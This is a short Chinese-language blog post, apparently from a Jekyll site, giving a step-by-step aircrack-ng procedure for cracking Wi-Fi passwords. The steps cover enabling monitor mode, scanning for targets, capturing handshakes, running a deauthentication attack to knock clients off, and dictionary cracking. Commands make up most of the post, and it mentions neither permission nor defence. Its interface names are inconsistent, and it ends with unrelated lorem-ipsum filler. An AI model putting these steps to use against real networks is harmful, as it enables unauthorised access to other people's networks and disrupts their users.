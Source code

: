 ```yaml
---
layout: post
title：wifi密码暴力破解
---
```

<img src="/images/fulls/03.jpg" class="fit image"> 
##破解准备
  +kali系统笔记本
  +无线网卡模块
  + 安装aircrack-ng包
##实验过程
###确认网卡
  进入系统后，首先ifconfig看我们的无线网卡是否有正常工作，如果没有开启  输入airmon-ng wlan0 up加载无线网卡
  在这里wlan0就是我的网卡，现在已经正常开启。
###开启监听
>root@kali:~$ airmon-ng start wlan0
  
 ###扫描目标wifi
 >root@kali:~$ airodump-ng wlan0mon
 
 ###开始抓握手包
 >root@kali:~$ airodump-ng --ivs -w abc -c 6 mon0 

 +ivs是通过ivs过滤，只保留可以破解密码的报文.ivs文件，这样比较快点
 +-w是将抓取的报文写入命名为abc并保存（之后会在当前文件夹保存为abc-01.ivs）
 +-c后面跟频道CH，如这里的6 
 
 ###强制客户端重连
>aireplay-ng -0 1 -a AP的Mac地址 -c 客户端的Mac地址 interface
 +-0 1：表示使用Deauth攻击模式，后面的1表示攻击次数
 +-a :表示AP的Mac地址
 +-c ：表示客户端的Mac地址
 +interface：网卡
 ###使用密码本破解
  root@kali:~$ aircrack-ng abc-01.ivs -w pass-wifi.txt
  +-w是指定我的密码本

Sed lobortis urna ut mi volutpat, sit amet euismod sapien tincidunt. Nulla facilisi. Pellentesque quis tempus neque. Mauris dictum ac sapien nec congue. In hac habitasse platea dictumst. Duis id pellentesque nisl. Morbi eget massa magna.
